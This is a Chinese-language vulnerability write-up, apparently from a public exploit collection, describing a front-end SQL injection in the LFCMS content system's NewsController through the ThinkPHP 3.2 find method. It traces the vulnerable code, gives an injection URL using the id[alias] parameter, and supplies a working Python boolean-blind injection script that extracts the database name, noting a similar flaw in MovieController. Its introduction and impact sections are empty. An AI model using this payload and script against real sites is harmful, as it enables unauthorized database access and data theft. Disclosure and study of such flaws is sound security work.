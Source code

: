 LFCMS NewsController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

回到lfcms，漏洞起始点位于`/Application/Home/Controller/NewsController.class.php`中的`index`方法，代码如下

![1.png](resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId24.png)

在代码第六行调用了`News`模型中的`detail`方法，跟进该方法

![2.png](resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId25.png)

可以看到在第八行进而调用了`tp`的`find`方法，在该版本中`find`方法是可以进行注入的，同时参数`$id`是我们可控的，首先我们来看一下正常的输入情况(图中域名为本地搭建解析)

![3.png](resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId26.png)

根据`tp3.2`的注入点构造一下语句，访问如下链接

    http://www.0-sec.org/index.php/Home/News/index/?id[alias]=where id=1 and 1--

页面与正常访问相比没有变化，查看一下数据库日志，看下后端数据库语句![4.png](resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId27.png)

可以看到在`id`处已经可以进行`sql`语句的拼接，也就证明该处是存在可利用的注入点的，由于本套程序对于错误信息是有屏蔽的，在这里我们很难利用报错注入带出数据，在该处可以考虑使用布尔类型的盲注，两种回显状态如下

![5.png](resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId28.png)

![6.png](resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId29.png)

接着写一下脚本（以查询数据库名为例）

    import requests
    url = 'http://lfcms.com/index.php/Home/News/index/?id[alias]=where id=1 and '
    result = ''
    for i in range(1,50):
        print('-----------------------------')
        for j in range(32,127):
            payload = 'if((ascii(substr((select database()),{},1))={}),1,0)--'.format(i,j)
            temp = url+payload
            try:
                html = requests.get(temp,timeout=10)
                if 'tttest' in html.text:
                    result+=chr(j)
                    print(result)
                    break
            except:
                print('[-]error')

结果如下

![7.png](resource/LFCMSNewsController.class.php前台sql注入漏洞/media/rId30.png)

相同原理的利用点还有很多，如位于`/Application/Home/Controller/MovieController.class.php`中的`index`方法的`id`参数，这里就不再重复分析了

参考链接
--------

> https://xz.aliyun.com/t/7844
